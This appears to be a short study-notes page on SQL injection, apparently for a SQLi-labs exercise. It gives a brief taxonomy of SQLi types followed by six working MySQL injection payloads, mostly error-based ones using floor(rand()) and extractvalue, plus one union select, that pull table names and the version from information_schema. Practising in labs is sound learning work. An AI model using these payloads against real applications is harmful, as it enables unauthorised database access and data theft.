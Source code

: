 # Sqli
SQL injection is a code injection technique


>SQL injection attacks allow attackers to spoof identity, tamper with existing data, cause repudiation issues such as voiding transactions or changing balances, allow the complete disclosure of all data on the system, destroy the data or make it otherwise unavailable, and become administrators of the database server.

- *Classic* SQLi
    - Error-based SQLi
    - Union-based SQLi
- **Blind** SQLi
    - Boolean-based (content-based) Blind SQLi
    - Time-based Blind SQLi

----

## Less5
Error-based SQLi

``` sql
    '1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema = database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a limit 0,1)b) --+
```

``` sql
//FIXME
    '1' and (select 1 from (select count(*),group_concat(concat((select group_concat(table_name) from information_schema.tables where table_schema = database()),floor(rand()*2))a) from information_schema.tables group by a)b) --+
```

``` sql
	'1' and (select 1 from (select count(*),(floor(rand()*2))a from information_schema.tables group by a limit 0,1)b) --+
```

``` sql
    '1' and (select 1 from (select count(*),concat(version(),floor(rand()*2))a from information_schema.tables group by a limit 0,1)b) --+
```

``` sql
    '1' and extractvalue(1,concat("/",(select group_concat(table_name) from information_schema.tables where table_schema = database() limit 0,1))) --+
```

``` sql
union select 1,table_name,2 from information_schema.tables where table_schema = database() limit 0,1 --+
```
